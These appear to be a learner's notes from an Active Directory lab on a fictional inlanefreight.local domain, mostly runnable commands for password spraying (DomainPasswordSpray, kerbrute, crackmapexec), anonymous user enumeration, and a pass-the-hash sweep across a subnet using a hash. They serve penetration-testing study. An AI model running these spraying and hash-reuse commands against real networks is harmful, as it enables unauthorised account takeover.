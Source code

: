 from windows attack 

if the host is domain joined
[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
```
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

if not,
we can also use kerbrute for user enumeration 

```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 user.list Welcome1
```

# Spraying
making a target user list 

Getting the users 
```
enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

or 
```
rccplient -U "" -N 172.16.5.5 
enumdomusers
```

[[Crackmapexec]] with --users flag

or 
```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```


windapsearch 
```
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```


## Linux notes: 
a valid login is not immediately apparent with rpcclient, with the response Authority Name indicating a successful login. We can filter out invalid login attempts by grepping for Authority in the response.

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
rmb that passwords are often reused everywhere so try the same password in many different accounts and hosts 

try to use the `--local-auth` flag so that u won't log out the built-in administrator for the domain

```
sudo +crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

